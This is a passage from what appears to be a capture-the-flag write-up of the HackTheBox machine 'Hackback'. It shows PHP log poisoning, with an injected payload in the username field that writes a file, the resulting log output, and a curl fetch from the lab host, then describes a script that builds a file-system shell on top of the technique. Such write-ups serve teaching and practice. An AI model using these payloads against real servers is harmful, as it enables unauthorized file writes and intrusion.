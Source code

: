 I’ll start by base64 encoding what I want to put:

```

root@kali# echo "0xdf was here" | base64 -w0
MHhkZiB3YXMgaGVyZQo=

```

Then I’ll poison the log with `username=<?php $f = "MHhkZiB3YXMgaGVyZQo="; file_put_contents("0xdf.txt", base64_decode($f)); ?>`

If I do a dir listing on `.` right now, I won’t see the file. That’s because the file isn’t written yet. But the act of viewing the log to see the dir list also wrote the file, so just running the same dirlist again will show it:

```

[04 March 2019, 11:22:03 AM] 10.10.14.14 - Username: Array
(
    [0] => .
    [1] => ..
    [2] => 0xdf.txt
    [3] => index.html
    [4] => webadmin.php
)
1, Password: xxxxxx

```

I can see the file through my log poisoning file read:

```

[04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: 0xdf was here
, Password: xxxxxx

```

I can also see it over http since it’s in a directory being served:

```

root@kali# curl http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/0xdf.txt
0xdf was here

```

### File System Shell

#### Code

It’s certainly possible to enumerate the box with repeater and the techniques above. Much like [FluJab a few weeks ago](/2019/06/15/htb-flujab.html#scripting-it), this is a case where putting in bit of time up front to write the script paid off over time as I used it more and more.

I won’t go through this line by line, but at a high level, on `__init__` (line 14) it will set the urls and cookie and call the function to clean the log. `clean_log` uses the `webadmin.php` `init` method to empty the log (line 27), and then adds poison for dir walks and file gets (line 29). I’ve used some static strings to mark where the output will be (lines 30-31), which enables my use of regex later to pull out the results (lines 40, 47, 59). I also build a url where the file parameter is a php filter (lines 18-20), so the result is always base64 encoded, allowing me to get php files. I’ve got user commands to `dir`, `type`, `save` (download), and `upload`.

